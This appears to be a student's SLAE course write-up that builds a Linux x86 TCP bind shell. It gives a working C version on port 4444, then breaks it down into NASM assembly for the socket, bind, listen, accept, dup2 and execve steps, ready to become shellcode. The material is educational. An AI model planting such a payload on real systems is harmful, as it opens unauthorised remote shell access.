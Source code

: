 ```yaml
---
layout: single
title: "SLAE: Custom TCP Bind shell"
excerpt: "This assignment will see us create and examine shellcode with a Bind TCP shell as the payload."
date: 2020-06-15
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
tags:
  - shellcode
  - assembly
---
```



_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_1)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532

This assignment will see us create and examine shellcode with a Bind TCP shell as the payload.

We start by retrieving a bind TCP shell written in C so that we can break it down to determine how we will go about building our own shellcode:
```
#include <stdio.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

int socketfd; 
int socketid; 

struct sockaddr_in hostaddr; 

int main() { 
    //Create socket, which returns the file descriptor so we can interact with it
    socketfd = socket(PF_INET, SOCK_STREAM, 0); //here we specify that it is an ipv4 stream type of communication and protocol is 0 (TCP/IP)

    //Initialize sockaddr struct 
    hostaddr.sin_family = AF_INET; //address family set to AF_INET(which is ipv4)
    hostaddr.sin_port = htons(4444); //htons is neccesary so endianness does not reverse how the port is stored in memory, thus scrambling it
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY); //htonl is neccesary so endianness does not reverse how the address is stored in memory, thus scrambling it

    //Bind our socket as defined
    bind(socketfd, (struct sockaddr*) &hostaddr, sizeof(hostaddr)); 

    //Start Listening
    listen(socketfd, 2); 

    //Accept incoming connection 
    socketid = accept(socketfd, NULL, NULL); 

    //Create new file descriptors for stdin stdout and stderror, so the client shell will recieve these from our socket 
    dup2(socketid, 0); 
    dup2(socketid, 1); 
    dup2(socketid, 2); 

    //Use execve to excecute /bin/sh from within our program
    execve("//bin/sh", NULL, NULL); //extra slash is to ensure we have to 8bit values to push onto stack later on
} 
```

After looking at the above we know we will need to make use of the following syscalls and functions under socketcall:

* __NR_socketcall	  102
    * SYS_SOCKET 	1
    * SYS_BIND  	2
    * SYS_CONNECT	3
    * SYS_LISTEN 	4
    * SYS_ACCEPT 	5   
* __NR_dup		     41
* __NR_execve		   11

Now, the SYS_SOCKET function takes 3 args as per man page:

![socketcall](/assets/images/SLAE_1/1.JPG)

The first arg, __domain__ will be set to AF_INET. As per our .c code, we already know what it represents (IPv4)
The second arg, __type__, will be set to SOCK_STREAM. Again we know what this does thanks to the breakdown of our .c code.
The third and final arg __protocol__ will be 0, as according to the man page this only changes under specific circumstances and at this point is beyond the scope of the exercise.

I ended up taking the easy route and using google to obtain these values, as this was the path of least resistance.
```
AF_INET		2 
SOCK_STREAM	1
```
To start converting to assembly we need to understand that syscalls get stored in EAX, with subsequent args going in EBX, ECX, EDX etc.
For socket call:
* syscall value obviously goes in al
* function type (socket, bind, listen etc) goes in bl
* args to function go in ecx.

We need to both zero out our registers with XOR, and place our values in the lowest possible register, example for setting up socketcall below:
```
    xor eax, eax ; we do this both to create a 0x0 value and get eax ready
    push eax ; push 0x0 as third arg
    push 0x1 ; for second arg, the value of SOCK_STREAM
    push 0x2 ; first arg is AF_INET, set address family to ipv4
    xor ecx, ecx ; clear out ecx
    mov ecx, esp ; move our arg values into ecx (place a pointer to these values with an address stored in ecx)
    xor ebx, ebx  ; SHELLCODE DID NOT WORK WITHOUT THIS HERE, IT WILL WORK WITH NASM BUT NOT AS SHELLCODE DUE TO REGISTER NOISE!!!
    mov al, 102   ; we move the socketcall syscall value into al, to avoid padding
    mov bl, 1     ; we set function to 1, which is the value of socket (this will change later on to accomodate accept, listen, bind etc)
    int 0x80 ; call system interrupt 
    mov esi, eax ; we store the returning value of our syscall for later use in other functions
```
We now move onto setting up the bind section of the shell.
A quick rundown of what we need to achieve here is:
* set sycall as socketcall again
* this time function will be 2 (SYS_BIND)
* we will need to reference the result of our previously executed syscall (now stored in esi)
* Specify listening address as 0.0.0.0 (all available)
* Specify the port value (/x11/x5C‬, then /x5C/x11 for little endian)
* Specify adress length

I ended up having to do some further research into setting the IP address, as per the man page for bind, the second arg is struct sockaddr, as per man 7 ip this means the address needs to consist of: sin_family, sin_port and sin_addr

![bind](/assets/images/SLAE_1/3.JPG)

![struct sockaddr](/assets/images/SLAE_1/2.JPG)

```
    xor ebx, ebx
    ;create struct sockaddr
    push ebx ; push 0x0 on for listening address
    push word 0x5C11 ; push on reversed value of 4444
    push 0x2 ; push value of AF_INET MAY NEED TO BE WORD??
    mov ecx, esp ; store our created sockaddr struc in ecx
    push 0x10 ; push length of address on (16) third arg
    push ecx ; push our created structure on as second arg
    push esi ; push created socket fd on as first arg
    mov ecx, esp ; move our values into ecx for the syscall
    mov bl, 2 ; we set function to 2, which is the value of bind
    xor eax, eax
    mov al, 102
    int 0x80
```

The next part of the code will set up a listener, man page excerpt below.

![listen](/assets/images/SLAE_1/4.JPG)

SO for the listener we need to provide the socket and backlog length, a simple arg that simply specifies the queue for pending connections.

```
    push 0x1 ; set backlog to 1 (arg 2)
    push esi ; push socket fd on (arg 1)
    mov ecx, esp ; mov the parameters required for listen into ecx for when we call the syscall
    mov bl, 0x4 ; listen function value
    mov al, 102
    int 0x80
```
Now we move onto the accept function.
As per man page, arguments will include our socket fd, struck sockaddr and addr length.

![accept](/assets/images/SLAE_1/5.JPG)

```
    push 0x10 ; length
    xor eax, eax
    push eax ; address
    push esi ; socket fd
    mov ecx, esp
    mov bl, 0x5 ; value for accept function
    mov al, 102
    int 0x80
```
The DUP syscall took me a long time to figure out, it was only after reviewing other students code multiple times I realised exactly what is needed, and it is a lot simpler than I initially thought.
Essentially all we need to use DUP2 for is to copy FD 0,1 and 2 from our OLD FD into a NEW FD. I created a loop as below:

![dup](/assets/images/SLAE_1/6.JPG)
```
    xor ecx,ecx

loop:
    mov al, 63 ; value for dup2
    int 0x80 ; call dup2, putting our zeroed value in
    inc ecx ; increase by 1
    cmp cl, 0x4 ; run through 0,1,2
    jne loop ; continue when it hits 3
```

All that is left to do is to spawn our shell, we do so with execve
```
    xor eax, eax
    push eax

    push 0x68732f6e
    push 0x69622f2f

    mov ebx, esp ; the null and //bin/sh get moved into ebx
    push eax ; push another null onto stack
    mov edx, esp ; move the null into edx
    push ebx ; the null and //bin/sh get pushed back onto stack
    mov ecx, esp ; they then get moved into ecx
    mov al, 11
    int 0x80
```
With all our pieces in place we compile our .nasm code and test it, to make sure that the next steps are not wasted on bad code (this was a good idea, as I realised I forgot to point the stack pointer to ecx in my accept section, which meant my program would just spawn /bin/sh locally xD)
After all this, we can see as below I was able to connect to the bind shell:

![start_bindlisten](/assets/images/SLAE_1/7.JPG)

![connect_to_shell](/assets/images/SLAE_1/9.JPG)

At this point I felt the urge to start enumerating and look for privesc, however I contained myself and continued with the exercise.
Using some [commandlinefu](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump) I extracted the raw shellcode from my confirmed working binary:
![connect_to_shell](/assets/images/SLAE_1/8.JPG)

We will now WRAP this assignment up by creating (read: stealing and modifying) a [python wrapper](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_1/wrapper.py) that will allow us to customise the port.
We will take our shellcode from the previous step and use that as our template, with \x11\x5c (4444) taken out.

A per screen below the script is both fool-proof and accurate.
![wrapper.py](/assets/images/SLAE_1/10.jpg)

